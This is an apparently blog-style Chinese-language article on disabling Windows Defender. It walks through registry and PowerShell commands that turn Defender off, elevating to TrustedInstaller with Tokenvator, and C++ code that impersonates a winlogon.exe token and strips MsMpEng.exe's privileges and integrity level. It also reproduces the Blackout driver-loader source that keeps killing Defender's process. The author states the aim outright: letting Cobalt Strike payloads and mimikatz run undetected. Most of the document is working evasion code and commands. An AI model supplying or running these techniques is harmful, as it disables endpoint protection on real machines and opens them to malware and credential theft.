




# 前言

随着数字技术的日益进步，我们的生活、工作和娱乐越来越依赖于计算机和网络系统。然而，与此同时，恶意软件也日趋猖獗，寻求窃取信息、破坏系统或仅仅为了展现其能力。微软Windows，作为世界上最流行的操作系统，不断受到这些恶意软件的攻击。为了对抗这些潜在的威胁，微软推出了Windows Defender，一款集成于Windows内部的免费反恶意软件工具

本文将深入探讨如何与Windows Defender对抗，以及那些特殊手段是如何被利用来破坏或关闭Defender的。


# 修改注册表关闭Defender

## 实现流程

打开注册表，在`HKLM\SOFTWARE\Policies\Microsoft\Windows Defender`键下有两个名为`DisableAntiSpyware`和`DisableAntiVirus`的值，当着两个值被置为1时表示关闭Windows Defender的反间谍软件和反病毒功能




​	

启用管理员权限打开cmd，执行如下命令修改注册表：

```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 1 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiVirus /t reg_dword /d 1 /f
```


修改完注册表后还需重启操作系统才算真正的关闭Defender。重启系统后，虽然defender看起来是正常运行的，但是我们上传一个CS马上去它也不会查杀

		


## 代码实现

```cpp
#include <windows.h>
#include <iostream>

// 设置注册表键值的函数
bool SetRegistryValue(HKEY hRootKey, LPCSTR subKey, LPCSTR valueName, DWORD data) {
    HKEY hKey;
    // 打开指定的注册表键
    LONG result = RegOpenKeyEx(hRootKey, subKey, 0, KEY_SET_VALUE, &hKey);
    
    if (result != ERROR_SUCCESS) {
        std::cerr << "打开注册表键失败: " << subKey << " 错误码: " << result << std::endl;
        return false;
    }

    // 设置指定的注册表键值
    result = RegSetValueEx(hKey, valueName, 0, REG_DWORD, (BYTE*)&data, sizeof(DWORD));
    // 关闭注册表键
    RegCloseKey(hKey);

    if (result != ERROR_SUCCESS) {
        std::cerr << "设置注册表值失败: " << valueName << " 错误码: " << result << std::endl;
        return false;
    }
    
    return true;
}

int main() {
    const char* subKey = "SOFTWARE\\Policies\\Microsoft\\Windows Defender";
    // 设置两个注册表键值
    if (SetRegistryValue(HKEY_LOCAL_MACHINE, subKey, "DisableAntiSpyware", 1) &&
        SetRegistryValue(HKEY_LOCAL_MACHINE, subKey, "DisableAntiVirus", 1)) {
        std::cout << "注册表键值设置成功!" << std::endl;
    } else {
        std::cerr << "设置注册表键值失败." << std::endl;
    }

    return 0;
}
```


# Powershell关闭Defender实时保护

执行如下Powershell命令可以关闭Windows Defender的实时保护

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```


# 提权至Trustedinstaller

## 情景分析

当我们使用system权限尝试删除WindowsDefender的某些核心文件时，会提示权限不足无法删除

	


这是因为修改WindowsDefender目录里的文件需要`TrustedInstaller`权限，而我们要做的是将`system`权限提升至`Trustedinstaller`

	


## 提权操作

使用开源的项目[Tokenvator](https://github.com/0xbadjuju/Tokenvator)将system权限提升至TrustedInstaller权限，执行如下命令后会弹出一个cmd shell, 查询其所在组可以发现权限为TrustedInstaller

```
.\Tokenvator.exe
GetTrustedinstaller /Command:c:\windows\system32\cmd.exe
```




提升至Trustedinstaller权限后即可删除windowsdefender的核心文件


# 摘除Defender令牌

## 实现原理

`MsMpEng.exe` 是 Microsoft Windows Defender 的核心进程，Windows Defender 是 Windows 操作系统自带的反病毒软件。此进程名称代表 Microsoft Malware Protection Engine，它负责在你的计算机上扫描、检测和移除恶意软件，通常此进程是加了PPL保护	


​		

使用ProcessHacker查看`MsmpEng.exe`的完整级别为`system`

> 在Windows操作系统中，完整性级别是一个安全特性，它被设计用来防止低权限的进程影响高权限的进程。这是通过对进程和对象（如文件或注册表键）分配完整性级别来实现的。如果一个进程试图修改一个具有比其更高完整性级别的对象，操作将会失败
>
> - **Untrusted (0x0000)**: 这是最低的完整性级别，通常不会分配给进程。
> - **Low (0x1000)**: 通常用于Web浏览器和其他可能处理不受信任输入的程序。这可以帮助防止恶意软件通过这些程序蔓延到系统的其它部分。
> - **Medium (0x2000)**: 这是普通用户级别的进程默认的完整性级别。除非另有说明，否则大多数进程将运行在此级别。
> - **High (0x3000)**: 这是管理员级别的进程的默认完整性级别。如果用户以管理员身份运行程序，那么该程序将运行在此级别。
> - **System (0x4000)**: 此级别用于操作系统核心和核心模式驱动程序。
> - **Protected (0x5000)**: 这是Windows 8引入的最高完整性级别，用于保护关键的系统进程。这个级别的进程有防篡改保护，并且只能由具有相同或更高完整性级别的进程访问

			


如果我们将`MsmpEng.exe`的完整级别降为Untrusted, 那么该进程对计算机资源的访问将十分有限，由于WindowsDefender的核心服务需要某些令牌，降为Untursted级别后这些令牌都会被摘除掉。如下图所示，我将`msedge.exe`的integrity降为Untrusted后，edge浏览器就无法打开了

	


## 实现思路		

### 1.开启Debug权限

通过`EnableDebugPrivilege`函数开启当前进程的Debug权限，Debug权限允许进程附加到其他进程上以进行调试，以下是`EnableDebugPrivilege`函数的定义：

- 调用`OpenProcessToken`获取传入进程的访问令牌
- 获取到令牌后，函数调用`LookupPrivilegeValue`函数以获取`SE_DEBUG_NAME`特权的本地唯一标识符（LUID）
- 获取`SE_DEBUG_NAME`特权的LUID后，函数创建一个`TOKEN_PRIVILEGES`结构来表示要启用的特权，然后将SE_DEBUG_NAME特权的LUID和启用状态填入到此结构中
- 调用`AdjustTokenPrivileges`来调整之前打开的令牌，使其获得`SE_DEBUG_NAME`特权

```cpp
// 函数EnableDebugPrivilege用于启用指定进程的调试权限
bool EnableDebugPrivilege(HANDLE ProcHandle, HANDLE* hToken)
{
    LUID sedebugnameValue; // LUID，用于表示系统特权
    TOKEN_PRIVILEGES tkp; // 令牌特权结构

    // 打开当前进程的访问令牌
    if (!OpenProcessToken(ProcHandle, TOKEN_ALL_ACCESS |
        TOKEN_QUERY, hToken))
    {
        return FALSE;
    }

    // 查找 SE_DEBUG_NAME 特权的 LUID
    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &sedebugnameValue))
    {
        CloseHandle(*hToken); // 关闭令牌句柄
        return false;
    }
    tkp.PrivilegeCount = 1; // 设置要调整的特权数量
    tkp.Privileges[0].Luid = sedebugnameValue; // 要启用的特权的 LUID
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; // 启用该特权
    
    // 调整访问令牌的特权
    if (!AdjustTokenPrivileges(*hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL))
    {
        return false;
    }
    return true; // 返回true表示成功启用调试特权
}
```


### 2.获取system权限的令牌

通过获取winlogon.exe进程（该进程以SYSTEM账户运行）的令牌并模拟该用户，这是为了获取到比当前用户更高的权限。

调用OpenProcessToken()函数获取winlogon.exe进程的令牌, 再调用ImpersonateLoggedOnUser函数将使用获取到的令牌模拟用户登录，如果成功，那么在此后的代码执行过程中，将使用该令牌所代表的用户权限。这里因为`winlogon.exe`通常是以SYSTEM用户身份运行的，所以相当于得到了SYSTEM的权限

```cpp
wchar_t procname[80] = L"winlogon.exe"; // 目标进程名称
int pid = getpid(procname); // 获取目标进程ID
HANDLE phandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); // 打开目标进程

HANDLE ptoken;
OpenProcessToken(phandle, TOKEN_READ | TOKEN_IMPERSONATE | TOKEN_DUPLICATE, &ptoken); // 获取目标进程的访问令牌

// 尝试以目标用户身份运行
if (ImpersonateLoggedOnUser(ptoken)) {
    printf("[*] Impersonated System!\n");
}
else {
    printf("[-] Failed to impersonate System...\n");
}
// 关闭句柄
CloseHandle(phandle);
CloseHandle(ptoken);
```


### 3.降低令牌权限

以下代码的主要目的是获取`MsMpEng.exe`的句柄，启用该进程的调试特权，并通过`SetPrivilege()`函数移除`MsMpEng.exe`的大部分权限，这使得Windows Defender丧失了很多能力，包括加载驱动程序、更改系统环境、备份文件等

```cpp
// 重复上述步骤，但目标进程改为"MsMpEng.exe"
wchar_t procname2[80] = L"MsMpEng.exe";
pid = getpid(procname2);
printf("[*] Killing Defender...\n");
phandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
if (phandle != INVALID_HANDLE_VALUE) {
    printf("[*] Opened Target Handle\n");
}
else {
    printf("[-] Failed to open Process Handle\n");
}
EnableDebugPrivilege(phandle,&ptoken);
// 以下一系列SetPrivilege调用移除了所有特定的权限
SetPrivilege(ptoken, SE_DEBUG_NAME, TRUE);
SetPrivilege(ptoken, SE_CHANGE_NOTIFY_NAME, TRUE);
SetPrivilege(ptoken, SE_TCB_NAME, TRUE);
SetPrivilege(ptoken, SE_IMPERSONATE_NAME, TRUE);
SetPrivilege(ptoken, SE_LOAD_DRIVER_NAME, TRUE);
SetPrivilege(ptoken, SE_RESTORE_NAME, TRUE);
SetPrivilege(ptoken, SE_BACKUP_NAME, TRUE);
SetPrivilege(ptoken, SE_SECURITY_NAME, TRUE);
SetPrivilege(ptoken, SE_SYSTEM_ENVIRONMENT_NAME, TRUE);
SetPrivilege(ptoken, SE_INCREASE_QUOTA_NAME, TRUE);
SetPrivilege(ptoken, SE_TAKE_OWNERSHIP_NAME, TRUE);
SetPrivilege(ptoken, SE_INC_BASE_PRIORITY_NAME, TRUE);
SetPrivilege(ptoken, SE_SHUTDOWN_NAME, TRUE);
SetPrivilege(ptoken, SE_ASSIGNPRIMARYTOKEN_NAME, TRUE);
printf("[*] Removed All Privileges\n");
}
```


### 4.设置进程完整级别为Untrusted

通过`SetTokenInformation()`函数将MsMpEng.exe的完整性级别设为Untrusted，这是最低的完整性级别，进一步限制了Windows Defender的能力

```cpp
// 设置令牌完整性级别为 Untrusted
DWORD integrityLevel = SECURITY_MANDATORY_UNTRUSTED_RID;
SID integrityLevelSid{};
integrityLevelSid.Revision = SID_REVISION;
integrityLevelSid.SubAuthorityCount = 1;
integrityLevelSid.IdentifierAuthority.Value[5] = 16;
integrityLevelSid.SubAuthority[0] = integrityLevel;
TOKEN_MANDATORY_LABEL tokenIntegrityLevel = {};
tokenIntegrityLevel.Label.Attributes = SE_GROUP_INTEGRITY;
tokenIntegrityLevel.Label.Sid = &integrityLevelSid;
if (!SetTokenInformation(
    ptoken,
    TokenIntegrityLevel,
    &tokenIntegrityLevel,
    sizeof(TOKEN_MANDATORY_LABEL) + GetLengthSid(&integrityLevelSid)))
{
    printf("SetTokenInformation failed\n");
}
else {
    printf("[*] Token Integrity set to Untrusted\n");
}
```


## 运行测试

在WindowsServer2019上，使用管理员权限执行`Kill_WindowsDefender.exe`

	


随后用ProcespsHacker查看`MsMpEng.exe`的完整级别, 可以发现变成了`Untrusted`

'	


将WindowsDefender设置为`Untrusted`级别后，运行mimikatz也不会出现报毒现象

	


但是这种方法只能在WindowsServer服务器上使用，无法在Windows10及以上版本使用

	


# 加载驱动关闭Defender(blackout)

## 项目描述

blackout项目地址：https://github.com/ZeroMemoryEx/Blackout

Blackout 是一个工具，旨在利用gmer驱动程序来禁用或杀死 EDR 和 AV，特别是那些受到反恶意软件保护的进程。这个工具需要在管理员的上下文中运行，并且可以流畅地绕过 HVCI。

需将驱动程序 `Blackout.sys` 和可执行文件放于同一路径，随后使用命令 `Blackout.exe -p <process_id>` 运行


## 项目分析

此项目主要涉及两个关键的函数，分别是`LoadDriver`和`DeviceIoControl`

首先我们来看下`LoadDriver`函数的定义，其目的是用于加载一个内核驱动。驱动的服务名称被命名为"Blackout"，随后使用`CreateServiceA` 创建一个新的内核驱动服务，并启动它

```cpp
BOOL
LoadDriver(
    char* driverPath
)
{
    SC_HANDLE hSCM, hService;
    const char* serviceName = "Blackout";

    // Open a handle to the SCM database
    hSCM = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (hSCM == NULL) {
        return (1);
    }

    // Check if the service already exists
    hService = OpenServiceA(hSCM, serviceName, SERVICE_ALL_ACCESS);
    if (hService != NULL)
    {
        printf("Service already exists.\n");

        // Start the service if it's not running
        SERVICE_STATUS serviceStatus;
        if (!QueryServiceStatus(hService, &serviceStatus))
        {
            CloseServiceHandle(hService);
            CloseServiceHandle(hSCM);
            return (1);
        }

        if (serviceStatus.dwCurrentState == SERVICE_STOPPED)
        {
            if (!StartServiceA(hService, 0, nullptr))
            {
                CloseServiceHandle(hService);
                CloseServiceHandle(hSCM);
                return (1);
            }

            printf("Starting service...\n");
        }

        CloseServiceHandle(hService);
        CloseServiceHandle(hSCM);
        return (0);
    }

    // Create the service
    hService = CreateServiceA(
        hSCM,
        serviceName,
        serviceName,
        SERVICE_ALL_ACCESS,
        SERVICE_KERNEL_DRIVER,
        SERVICE_DEMAND_START,
        SERVICE_ERROR_IGNORE,
        driverPath,
        NULL,
        NULL,
        NULL,
        NULL,
        NULL
    );

    if (hService == NULL) {
        CloseServiceHandle(hSCM);
        return (1);
    }

    printf("Service created successfully.\n");

    // Start the service
    if (!StartServiceA(hService, 0, nullptr))
    {
        CloseServiceHandle(hService);
        CloseServiceHandle(hSCM);
        return (1);
    }

    printf("Starting service...\n");

    CloseServiceHandle(hService);
    CloseServiceHandle(hSCM);

    return (0);
}
```


其次看下主函数代码的实现流程，先使用前面定义的LoadDriver函数加载驱动，再使用CreateFile打开驱动并得到其句柄。

得到驱动句柄后使用 `DeviceIoControl` 函数与驱动通信，发送`INITIALIZE_IOCTL_CODE` 指令初始化驱动，再发送`TERMINSTE_PROCESS_IOCTL_CODE` 指令来终止指定的进程

如果所给的进程 ID 对应的进程是 "MsMpEng.exe"（这是 Windows Defender 的进程），则程序会不断尝试终止它，毕竟MsMpEng.exe被杀死后还是会无限复活的

在这里我要补充一点，当调用 `CreateFile` 打开 "\\\\.\\Blackout" 时，实际上是在尝试打开一个与驱动程序相关联的设备。在Windows中，驱动程序可以创建一个设备并为其分配一个符号链接，这样用户模式的程序可以通过这个符号链接与驱动程序通信，从而允许后续的`DeviceIoControl` 调用来传递IO控制代码 (IOCTL) 和其他数据到驱动程序中

```cpp
int
main(
    int argc,
    char** argv
) {

    if (argc != 3) {
        printf("Invalid number of arguments. Usage: Blackout.exe -p <process_id>\n");
        return (-1);
    }

    if (strcmp(argv[1], "-p") != 0) {
        printf("Invalid argument. Usage: Blackout.exe -p <process_id>\n");
        return (-1);
    }

    if (!CheckProcess(atoi(argv[2])))
    {
        printf("provided process id doesnt exist !!\n");
        return (-1);
    }

    WIN32_FIND_DATAA fileData;
    HANDLE hFind;
    char FullDriverPath[MAX_PATH];
    BOOL once = 1;

    hFind = FindFirstFileA("Blackout.sys", &fileData);

    if (hFind != INVALID_HANDLE_VALUE) { // file is found
        if (GetFullPathNameA(fileData.cFileName, MAX_PATH, FullDriverPath, NULL) != 0) { // full path is found
            printf("driver path: %s\n", FullDriverPath);
        }
        else {
            printf("path not found !!\n");
            return(-1);
        }
    }
    else {
        printf("driver not found !!\n");
        return(-1);
    }
    printf("Loading %s driver .. \n", fileData.cFileName);

    if (LoadDriver(FullDriverPath))
    {
        printf("faild to load driver ,try to run the program as administrator!!\n");
        return (-1);
    }

    printf("driver loaded successfully !!\n");

    HANDLE hDevice = CreateFile(L"\\\\.\\Blackout", GENERIC_WRITE | GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("Failed to open handle to driver !! ");
        return (-1);
    }

    DWORD bytesReturned = 0;
    DWORD input = atoi(argv[2]);
    DWORD output[2] = { 0 };
    DWORD outputSize = sizeof(output);

    BOOL result = DeviceIoControl(hDevice, INITIALIZE_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL);
    if (!result)
    {
        printf("faild to send initializing request %X !!\n", INITIALIZE_IOCTL_CODE);
        return (-1);
    }

    printf("driver initialized %X !!\n", INITIALIZE_IOCTL_CODE);

    if (GetPID(L"MsMpEng.exe") == input)
    {
        printf("Terminating Windows Defender ..\nkeep the program running to prevent the service from restarting it\n");
        while (0x1)
        {
            if (input = GetPID(L"MsMpEng.exe"))
            {
                if (!DeviceIoControl(hDevice, TERMINSTE_PROCESS_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL))
                {
                    printf("DeviceIoControl failed. Error: %X !!\n", GetLastError());
                    CloseHandle(hDevice);
                    return (-1);
                }
                if (once)
                {
                    printf("Defender Terminated ..\n");
                    once = 0;
                }

            }

            Sleep(700);
        }
    }

    printf("terminating process !! \n");

    result = DeviceIoControl(hDevice, TERMINSTE_PROCESS_IOCTL_CODE, &input, sizeof(input), output, outputSize, &bytesReturned, NULL);

    if (!result)
    {
        printf("failed to terminate process: %X !!\n", GetLastError());
        CloseHandle(hDevice);
        return (-1);
    }

    printf("process has been terminated!\n");

    system("pause");

    CloseHandle(hDevice);

    return 0;
}
```


## 运行测试

	


# 参考链接

- https://www.freebuf.com/articles/network/324952.html
- https://xz.aliyun.com/t/12280#toc-25

